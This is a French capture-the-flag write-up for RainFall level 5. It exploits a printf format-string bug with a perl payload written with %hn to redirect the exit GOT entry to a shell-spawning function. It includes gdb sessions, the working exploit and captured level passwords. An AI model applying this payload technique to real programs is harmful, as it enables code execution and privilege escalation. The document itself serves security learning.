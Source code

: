# Level 5

pass : `0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a`

## Sources :

```c
#include <stdio.h>

// 0x080484a4
void	o() {
	system("/bin/sh");
	_exit(1);
}

// 0x080484c2
void	n() {
	// char *fgets(char *s, int size, FILE *stream);
	char	str[520];  // 0x208
	fgets(str, 512, stdin);  // 0x200
	printf(str);
	exit(1);
}

// 0x08048504
void	main() {
	n();
}
```

## Recherche :

> Ici, on voit que la fonction `o()` à l'adresse `0x080484a4` nous permettrait d'exécuter un shell.
> On va donc exploiter `printf()` pour changer le pointeur de fonction de `exit()` pour le faire pointer plutôt vers `o()`

Comme fait précédement, on va chercher l'offset qu'on trouve à `4`:
```
$ ./script.sh ./level5
Index 0
Index 1
Index 2
Index 3
Index 4
AAAA41414141
```

Inspectons la GOT (**Global Offset Table**) :

```
[0]kali@kali:~/rainfall$ objdump -R ./level5

./level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin@@GLIBC_2.0
08049824 R_386_JUMP_SLOT   printf@GLIBC_2.0
08049828 R_386_JUMP_SLOT   _exit@GLIBC_2.0
0804982c R_386_JUMP_SLOT   fgets@GLIBC_2.0
08049830 R_386_JUMP_SLOT   system@GLIBC_2.0
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit@GLIBC_2.0
0804983c R_386_JUMP_SLOT   __libc_start_main@GLIBC_2.0
```

On va donc écrire à l'adresse `0x08049838` où se trouve la routine `exit`.

```gdb
gdb-peda$ r < <(perl -e 'print "\x38\x98\x04\x08%4\$n"')
Starting program: /home/kali/rainfall/level5 < <(perl -e 'print "\x38\x98\x04\x08%4\$n"')

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x4
EBX: 0x0
ECX: 0x0
EDX: 0x7ffffffb
ESI: 0xb7fb7000 --> 0x1dfd6c
EDI: 0xb7fb7000 --> 0x1dfd6c
EBP: 0xbffff2f8 --> 0xbffff308 --> 0x0
ESP: 0xbffff0dc --> 0x8048504 (<main>:  push   ebp)
EIP: 0x4
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x4
[------------------------------------stack-------------------------------------]
0000| 0xbffff0dc --> 0x8048504 (<main>: push   ebp)
0004| 0xbffff0e0 --> 0x1
0008| 0xbffff0e4 --> 0x200
0012| 0xbffff0e8 --> 0xb7fb7580 --> 0xfbad2098
0016| 0xbffff0ec --> 0xb7fda53c (<dl_main+8636>:        mov    eax,DWORD PTR [ebp-0x14c])
0020| 0xbffff0f0 --> 0x8049838 --> 0x4
0024| 0xbffff0f4 ("%4$n")
0028| 0xbffff0f8 --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000004 in ?? ()
```

On a bien mis dans l'`EIP` l'addresse `0x4`, c'est à dire le nombre de bits de `\x38\x98\x04\x08`
Maintenant on va mettre l'addre de `o()` qui est `0x080484a4` avec `%hn`

Donc on veut excrire `0x84a4` puis `0x0804`
- `0x0804` - `8` = `2044`
- `0x84a4` - `0x0804` = `31904`


`
r < <(perl -e 'print "\x3a\x98\x04\x08\x38\x98\x04\x08%2044x%4\$hn%31904x%5\$hn"')`

```gdb
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     sub    $0x18,%esp
   0x080484aa <+6>:     movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:    call   0x80483b0 <system@plt>
   0x080484b6 <+18>:    movl   $0x1,(%esp)
   0x080484bd <+25>:    call   0x8048390 <_exit@plt>
End of assembler dump.
(gdb) b *0x080484a7
Breakpoint 1 at 0x80484a7
(gdb) r < <(perl -e 'print "\x3a\x98\x04\x08\x38\x98\x04\x08%2044x%4\$hn%31904x%5\$hn"')
Starting program: /home/kali/rainfall/level5 < <(perl -e 'print "\x3a\x98\x04\x08\x38\x98\x04\x08%2044x%4\$hn%31904x%5\$hn"')
:8
.
.
.
Breakpoint 1, 0x080484a7 in o ()
(gdb)
```
On a donc réussi à atteindre `o()`

Il ne reste plus qu'à lancer la commande et récuperer le pass.

## Exploit :

```shell
level5@RainFall:~$ (perl -e 'print "\x3a\x98\x04\x08\x38\x98\x04\x08%2044x%4\$hn%31904x%5\$hn"';cat) | ./level5
whoami
level6
cd ../level6
cat .pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

----

## Documentation :
* [Une simple Exploitation de vulnérabilité Format String](https://www.exploit-db.com/papers/23985)

